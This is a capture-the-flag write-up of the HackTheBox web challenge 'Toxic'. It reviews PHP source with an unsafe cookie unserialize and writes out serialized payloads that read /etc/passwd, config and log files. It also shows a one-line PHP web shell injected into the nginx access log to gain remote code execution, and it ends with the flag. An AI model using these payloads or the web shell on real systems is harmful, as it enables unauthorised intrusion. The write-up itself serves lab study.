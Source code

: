 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - LFI
  - code-review
  - log-poisoning
  - php-deserialization
---
```

>[!quote]
>*Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸*


# Set up

-

# Information Gathering

Site:

![Pasted image 20210504210757.png](../../zzz_res/attachments/Pasted_image_20210504210757.png)

Archive:

```
┌──(kali㉿kali)-[~/…/HTB/challange/web/Toxic]
└─$ unzip Toxic.zip
Archive:  Toxic.zip
   creating: web_toxic/
[Toxic.zip] web_toxic/flag password:
 extracting: web_toxic/flag
   creating: web_toxic/config/
  inflating: web_toxic/config/fpm.conf
  inflating: web_toxic/config/supervisord.conf
  inflating: web_toxic/config/nginx.conf
  inflating: web_toxic/Dockerfile
  inflating: web_toxic/build-docker.sh
   creating: web_toxic/challenge/
  inflating: web_toxic/challenge/index.html
  inflating: web_toxic/challenge/index.php
   creating: web_toxic/challenge/models/
  inflating: web_toxic/challenge/models/PageModel.php
   creating: web_toxic/challenge/static/
   creating: web_toxic/challenge/static/css/
  inflating: web_toxic/challenge/static/css/production.css
   creating: web_toxic/challenge/static/images/
 extracting: web_toxic/challenge/static/images/favicon.ico
  inflating: web_toxic/challenge/static/images/dart-frog.jpg
  inflating: web_toxic/challenge/static/images/drift.svg
  inflating: web_toxic/challenge/static/images/newrelic.svg
  inflating: web_toxic/challenge/static/images/instagram.svg
  inflating: web_toxic/challenge/static/images/segment.svg
  inflating: web_toxic/challenge/static/images/flask.svg
  inflating: web_toxic/challenge/static/images/presentor.jpg
  inflating: web_toxic/challenge/static/images/facebook.svg
  inflating: web_toxic/challenge/static/images/bucket.svg
  inflating: web_toxic/challenge/static/images/stripe.svg
  inflating: web_toxic/challenge/static/images/youtube.svg
  inflating: web_toxic/challenge/static/images/aircraft.svg
  inflating: web_toxic/challenge/static/images/ryan3.png
  inflating: web_toxic/challenge/static/images/ryan2.png
  inflating: web_toxic/challenge/static/images/twitter.svg
  inflating: web_toxic/challenge/static/images/zopim.svg
  inflating: web_toxic/challenge/static/images/ryan1.png
  inflating: web_toxic/challenge/static/images/ryan5.png
  inflating: web_toxic/challenge/static/images/woman1.jpg
  inflating: web_toxic/challenge/static/images/logo.svg
  inflating: web_toxic/challenge/static/images/ryan4.png
  inflating: web_toxic/challenge/static/images/ryan6.png
  inflating: web_toxic/challenge/static/images/woman2.jpg
  inflating: web_toxic/challenge/static/images/woman3.jpg
   creating: web_toxic/challenge/static/js/
  inflating: web_toxic/challenge/static/js/production.js
   creating: web_toxic/challenge/static/basement/
  inflating: web_toxic/challenge/static/basement/help.png
  inflating: web_toxic/entrypoint.sh
```

## Important files

**Index.php**

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

**challenge/models/PageModel.php**

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

## Cookie are serialized

![Pasted image 20210504211953.png](../../zzz_res/attachments/Pasted_image_20210504211953.png)

# The Bug

## PHP LFI using deserialization

Enumerated users:

`<@base64>O:9:"PageModel":1:{s:4:"file";s:33:"php://filter/resource=/etc/passwd";}<@/base64>`

![Pasted image 20210504221128.png](../../zzz_res/attachments/Pasted_image_20210504221128.png)

# Exploitation

Enumerated conf file:

```bash
┌──(kali㉿kali)-[~/…/challange/web/Toxic/web_toxic]
└─$ cat Dockerfile
...
# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php7/php-fpm.d/www.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf
...
```

`<@base64>O:9:"PageModel":1:{s:4:"file";s:21:"/etc/nginx/nginx.conf";}<@/base64>`

![Pasted image 20210504224723.png](../../zzz_res/attachments/Pasted_image_20210504224723.png)

Enumerated log file:

`<@base64>O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}<@/base64>`

![Pasted image 20210504224802.png](../../zzz_res/attachments/Pasted_image_20210504224802.png)

## LFI2RCE - Log Poisoning

Poisoned the logs:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-2]
└─$ nc -nv 138.68.140.56  32248
(UNKNOWN) [138.68.140.56] 32248 (?) open
<?php echo shell_exec($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Server: nginx
Date: Tue, 04 May 2021 20:52:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 150
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

Get RCE:

![Pasted image 20210504225420.png](../../zzz_res/attachments/Pasted_image_20210504225420.png)

![Pasted image 20210504225501.png](../../zzz_res/attachments/Pasted_image_20210504225501.png)

![Pasted image 20210504225602.png](../../zzz_res/attachments/Pasted_image_20210504225602.png)

# Flag

>[!success]
>`HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`
